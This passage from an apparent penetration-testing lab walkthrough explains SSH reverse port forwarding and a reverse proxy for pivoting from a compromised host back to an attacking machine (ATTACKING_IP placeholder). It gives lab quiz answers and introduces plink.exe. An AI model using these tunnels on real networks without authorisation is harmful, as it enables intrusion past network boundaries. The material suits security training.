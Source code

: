 ```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN

```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the -D switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN


```

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

Note: Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems.

To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection:

![image](https://user-images.githubusercontent.com/89842187/131923384-222d4510-0003-49b5-8313-2ef263766468.png)


Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type sudo kill PID to close the connection:

![image](https://user-images.githubusercontent.com/89842187/131923403-56b3885f-e82a-4b0b-8a2e-5a294a717917.png)


If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called id_rsa and backgrounding the shell, what command would you use? (Assume your username is "kali")

```
ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN
```


If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

```
ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN
```

## plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.
